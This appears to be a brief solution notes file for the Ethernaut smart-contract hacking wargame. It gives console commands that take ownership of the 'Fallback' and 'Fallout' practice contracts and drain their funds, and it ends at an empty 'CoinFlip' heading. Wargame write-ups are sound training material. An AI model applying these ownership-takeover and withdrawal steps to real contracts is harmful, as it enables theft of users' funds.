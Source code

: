 # Ethernaut

## Fallback
'await contract.contribute({value: 100}) // Add a mapping from msg.sender to contributions'
'await contract.sendTransaction({value: 100}) // Trigger receive fallback'
'await contract.withdraw() // Withdraw all funds'

## Fallout
'await contract.Fallout() // Call constructor; claim ownership'

## CoinFlip